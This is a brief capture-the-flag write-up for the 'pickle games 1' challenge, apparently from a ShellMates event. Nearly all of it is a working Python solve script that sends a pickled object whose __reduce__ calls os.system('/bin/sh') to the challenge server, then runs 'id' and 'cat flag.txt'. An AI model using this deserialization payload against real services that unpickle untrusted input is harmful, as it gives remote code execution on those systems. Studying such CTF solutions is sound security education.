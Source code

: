 # pickle games 1

## Write-up

Input is not filtered at all, we can send a classic pickle RCE payload: 

```python
#!/usr/bin/env python3

from pwn import *
import pickle

HOST, PORT, SSL = "pickle-games-1.challs.shellmates.club", 443, True

class RCE:
    def __reduce__(self):
        return os.system, ("/bin/sh",)

if __name__ == "__main__":
    io = remote(HOST, PORT, ssl=SSL)
    rce = RCE()
    payload = pickle.dumps(rce)
    data = payload.hex()
    io.recvuntil(b"data: ")
    io.sendline(data)
    io.sendline(b"id")
    io.sendline(b"cat flag.txt")
    io.interactive()
```

[solve.py](solve.py)

